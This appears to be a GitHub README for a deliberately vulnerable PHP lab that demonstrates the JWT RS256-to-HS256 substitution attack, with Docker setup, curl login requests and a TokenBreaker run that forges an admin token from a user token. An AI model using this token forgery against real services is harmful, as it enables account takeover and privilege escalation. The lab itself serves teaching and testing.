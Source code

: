 ## Php-Jwt-Substitution-Attack_Rsa256_to_Hs256


JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed. JWTs can be signed using a secret (with the HMAC algorithm) or a public/private key pair using RSA.

https://jwt.io/

## Owasp 

https://owasp.org/www-chapter-vancouver/assets/presentations/2020-01_Attacking_and_Securing_JWT.pdf



## Setup

install from my dockerhub : https://hub.docker.com/r/mhnamadi/jwt-php-rsa256tohs256


    docker run -ti -p 9090:5000 mhnamadi/jwt-php-rsa256tohs256
    
    docker ps 
    
    docker exec -it ContainerID bash 
    
    service apache2 start
    
    service mysql start 
    
    Done :))    
    
## Description 

    We have 2 account securestore:securestore and admin:admin 
    
    We want to account takeover from securestore to admin account with this attack

## Payload 
  
        Login to securestore and get jwt RSA256

1. curl -i -s -k -X $'POST' -H $'Host: 192.168.1.104:9090' -H $'Content-Type: application/json' -H $'Content-Length: 69' -H $'User-Agent: \ Mozilla/5.0(Macintosh; Intel Mac OS X 10.15;rv:97.0) Gecko/20100101 Firefox/97.0' \
--data-binary $'{\"name\": \"login\",\"param\": \{\"user\":\"securestore\",\"pass\":\"securestore\"}}' $'http://192.168.1.104:9090/v3/'

![Getting Started](80.png)


        Login to admin and get jwt RSA256
        
2. curl -i -s -k -X $'POST'  -H $'Host: 192.168.1.104:9090' -H $'Content-Type: application/json' -H $'Content-Length: 57' -H $'User-Agent: \
Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0' \
--data-binary $'{\"name\": \"login\",\"param\":{\"user\":\"admin\",\"pass\":\"admin\"}}'  $'http://192.168.1.104:9090/v3/'

![Getting Started](81.png)

3. the first is fuzzing on JWT token securestore and admin account 

![Getting Started](82.png)


![Getting Started](83.png)


4. We want to add "userId":"admin","isAdmin":"true" to secure store account 

    TokenBreaker is one of the best tools for JWT Attack
    
5. https://github.com/cyberblackhole/TokenBreaker    

## Attack 

    Use JWT securestore token and change payload
  
mhs-MacBook-Pro:TokenBreaker mhn$ python3 RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpYXQiOjE2NDU0Nzc0NjYsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTY0NTQ4NjQ2NiwidXNlcklkIjoic2VjdXJlc3RvcmUiLCJpc0FkbWluIjoiZmFsc2UifQ.NX6p76T2p5-DfhJcLHTJ64F_-xv6pl1iRFCrm4gDM-UPNpjmm2_1F0pfplcfrlIJEDgBQnMPe3245RLXk_gMWstJ1T3QehJIOMcBTruxbwzOUaOdF3IY-eBfeLgH0854xYnf0MW6rtezWD4a66VecsmjV3sUtRUcujF5ytpx_zqdAyEKT7dZTNLo-Wi8hTszLVhEFy_amLfIKOoWsDh43To3bvJU6OJZ1m8zAFc3Ur87GrL92wv1TToDDvmdrF9uubuZxD1tW6pek0U--DQLmcgegsKLl4_JPQNdxfmS5Eycku09IaA-4a68nrEZOPfyq-1-0lTaB_xlcDVQfFAT-g -p public.pem 

 ___  ___   _     _         _  _ __  __   _   ___
| _ \/ __| /_\   | |_ ___  | || |  \/  | /_\ / __|
|   /\__ \/ _ \  |  _/ _ \ | __ | |\/| |/ _ \ (__
|_|_\|___/_/ \_\  \__\___/ |_||_|_|  |_/_/ \_\___|


[*] Decoded Header value: {"typ":"JWT","alg":"RS256"}
[*] Decode Payload value: {"iat":1645477466,"iss":"localhost","exp":1645486466,"userId":"securestore","isAdmin":"false"}
[*] New header value with HMAC: {"typ":"JWT","alg":"HS256"}
[<] Modify Header? [y/N]: N
[<] Enter Your Payload value: {"iat":1645479477,"iss":"localhost","exp":1645488477,"userId":"admin","isAdmin":"true"}
[+] Successfully Encoded Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NDU0Nzk0NzcsImlzcyI6ImxvY2FsaG9zdCIsImV4cCI6MTY0NTQ4ODQ3NywidXNlcklkIjoiYWRtaW4iLCJpc0FkbWluIjoidHJ1ZSJ9.MdUsaQIPcVsIggim6PKt91wTsTFcWQwwwI5UIX048i8
mhs-MacBook-Pro:TokenBreaker mhn$ 

![Getting Started](84.png)





